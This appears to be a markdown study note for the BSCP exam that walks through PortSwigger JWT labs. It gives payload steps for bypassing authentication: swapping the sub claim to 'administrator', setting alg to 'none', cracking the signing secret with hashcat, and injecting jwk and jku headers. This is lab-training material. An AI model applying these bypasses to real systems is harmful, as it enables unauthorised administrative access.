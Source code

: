 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
Part 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

	

```
